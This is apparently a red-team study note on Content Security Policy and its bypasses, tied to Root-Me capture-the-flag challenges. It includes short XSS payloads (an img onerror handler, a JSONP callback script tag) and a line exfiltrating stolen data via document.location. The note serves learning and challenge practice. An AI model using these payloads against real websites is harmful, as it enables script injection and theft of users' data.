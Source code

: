# Content Security Policy (CSP)

[![csp_bypass_nonce](../../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)

<div class="row row-cols-lg-2"><div>

The Content Security Policy (CSP) is a security mechanism designed to make XSS and other web client attacks harder.

* 🐛 We can block inline code execution <small>(no onload/...)</small>
* 🖼️ We can configure the image policy <small>(no external? whitelist? local?)</small>
* 💥 We can configure the script policy <small>(no external? whitelist? local?)</small>
* 🐍 We can configure URLs that we can connect to <small>(ex: fetch(URL))</small>
* ...

We can either use `curl -i URL` and manually inspect the CSP header and meta-tag or use Google [CSP Evaluator](https://csp-evaluator.withgoogle.com/).
</div><div>

Developers can allow some elements to bypass the CSP, such as one specific element allowed to load an external script using a `nonce`.

```html!
<script nonce="some_nonce_here">/*inline code allowed*/</script>
```

☠️ Nonce must be unique and not predictable for them to be useful.
</div></div>

<hr class="sep-both">

## CSP Bypass

*CSP policies may not be correctly configured and bypassed. Refer to [XSS Malicious Code](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md#xss-malicious-code) and [XSS Filter Bypass](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md#xss-filter-bypass) for more details.*

<div class="row row-cols-lg-2"><div>

#### CSP Bypass — unsafe-inline

[![csp_bypass_inline_code](../../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)

If `unsafe-inline` is enabled, you can execute code using:

```html!
<img src=1 onerror="your_code_here" />
```

#### CSP Bypass — connect-src 'none'

[![csp_bypass_inline_code](../../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
[![csp_bypass_jsonp](../../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)
[![csp_bypass_nonce](../../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)

If `connect-src` is `none`, any external request will fail. Try:

* `document.location = 'URL/?param=' + <stolen_data>` <small>(CTF-only)</small>
* Automatically submit a hidden form after injecting data inside. Refer to [CSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/csrf.md).
</div><div>

#### CSP Bypass — JSONP — script-src

[![csp_bypass_jsonp](../../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)

JSONP was designed to ease the process of connecting an API with the website code: the developer can write code automatically executed after the API has been called within the URL ☠️.

Well-known list of public JSONP APIs: [JSONBee](https://github.com/zigoo0/JSONBee) <small>(0.7k ⭐)</small>. Look if your CSP policy is lax enough to allow any of them to be loaded.

```html!
<!-- don't forget "defer" or "async" -->
<script defer src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);alert(2)"></script>
```
</div></div>